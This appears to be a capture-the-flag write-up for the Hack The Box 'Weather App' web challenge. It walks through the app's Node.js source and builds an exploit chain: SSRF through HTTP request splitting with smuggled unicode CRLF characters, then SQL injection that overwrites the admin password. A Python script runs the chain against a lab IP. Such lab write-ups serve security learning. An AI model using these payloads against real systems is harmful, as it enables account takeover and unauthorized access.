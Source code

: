 # Weather App
This is a web exploitation on HTB that leverages on SSRF and SQL Injection


# Exploitation

In the source code, we realize that to register an account, we would need the POST request to be sent from the local server as the source code checks for whether the request comes from the local host. In order to exploit this endpoint, we might need to look for SSRF vulnerabilities in other endpoints to register a new account

```
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});
```

In the /login endpoint, we also realize that we would need to login as an admin user to be able to view the flag.

```
router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```

In the /api/weather endpoint, we realize that this endpoint will redirect to another endpoint in the WeatherHelper.js file, which could be exploited to conduct a SSRF attack.

```
let apiKey = '10a62430af617a949055a46fa6dec32f';
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
```

To be able to login, we have to construct a payload to first register an admin user that we can login.

```
POST /register HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

However, we are still unable to register the user yet. This is because the query used is ```INSERT INTO users (username, password) VALUES ('${user}', '${pass}')```. Hence, if a user exists, we will not be able to regitser the user.

At the same time, we realize that the user and pass variables are not sanitized properly when updating the database. This means that we can do an SQL injection to update the admin's password using the following query.

```
1234') ON CONFLICT(username) DO UPDATE SET password = 'flag';--
```

Lastly, we will just write a script to register as an admin user, and logging in as an admin user will give us the flag.

```
import requests


url = "http://167.172.49.117:32583/api/weather"

username = 'admin'
password = "1337') ON CONFLICT(username) DO UPDATE SET password = 'abcde';--"

parseUsername = username.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
parsePassword = password.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parseUsername) + len(parsePassword) + 19
endpoint =  '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHOST:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(contentLength) + '\u010D\u010A\u010D\u010Ausername=' + parseUsername + '&password=' + parsePassword + '\u010D\u010A\u010D\u010AGET\u0120/?wtfamidoing='
r = requests.post(url, json={'endpoint': endpoint, 'city': 'Singapore', 'country': 'SG'})

print(r)
```
